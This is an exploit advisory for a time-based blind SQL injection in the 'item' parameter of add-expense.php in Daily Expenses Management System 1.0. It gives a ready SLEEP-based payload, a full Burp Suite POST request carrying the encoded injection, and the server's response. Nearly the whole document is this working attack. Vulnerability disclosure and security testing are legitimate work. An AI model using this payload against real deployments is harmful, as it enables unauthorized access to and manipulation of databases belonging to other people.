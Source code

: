 # Exploit Title: Daily Expenses Management System 1.0 - 'item' SQL Injection (Time-based blind)
- **Date:** 12-03-2024
- **Exploit Author:** Ayush Patidar
- **Vendor Homepage:** [https://phpgurukul.com/](https://phpgurukul.com/)
- **Software Link:** [https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/)
- **Version:** 1.0
- **Tested on:** Windows & Xampp

---

## Feature: Add Expenses
- **Vulnerable file:** add-expense.php
- **Vulnerable parameters:**
	- item
	- costitem

---

## PoC
- **URL:** [http://example.com/dets/add-expense.php](http://example.com/dets/add-expense.php)
- **Method:** POST

---

## Payload
```http
dateexpense=1337-11-11&item=1' AND (SELECT 8429 FROM (SELECT(SLEEP(5)))IWeV) AND 'hmPP'='hmPP&costitem=2&submit=
```
## Burpsuite Requests

```http
POST /dets/add-expense.php HTTP/1.1
Host: example.com
Content-Length: 139
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://example.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://example.com/dets/add-expense.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: PHPSESSID=ofjno6jio72kc9u6tnbvu1cit7
Connection: close

dateexpense=2024-03-12&item=1%27+AND+%28SELECT+8429+FROM+%28SELECT%28SLEEP%285%29%29%29IWeV%29+AND+%27hmPP%27%3D%27hmPP&costitem=10&submit=

```
## Burpsuite Response

```http
HTTP/1.1 200 OK
Date: Wed, 13 Mar 2024 00:10:39 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 6455
Connection: close
Content-Type: text/html; charset=UTF-8

<script>alert('Expense has been added');</script><script>window.location.href='manage-expense.php'</script><!DOCTYPE html>
<html>
<head>
...

```
